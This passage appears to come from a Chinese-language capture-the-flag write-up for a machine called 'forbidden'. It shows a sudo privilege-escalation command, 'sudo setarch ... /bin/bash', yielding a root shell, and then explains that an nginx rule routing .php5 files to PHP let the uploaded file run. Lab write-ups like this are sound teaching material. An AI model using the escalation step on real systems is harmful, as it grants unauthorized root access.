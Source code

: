 
```Shell
peter@forbidden:/var/www/html$ sudo setarch x86\_64 /bin/bash
root@forbidden:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@forbidden:/var/www/html# 
```
## 7. 拓展

造成Php5后缀可以被解析的原因是

/etc/nginx/sites-available/default 中配置了

```PHP
location ~ \.php5$ {
                include snippets/fastcgi-php.conf;
```


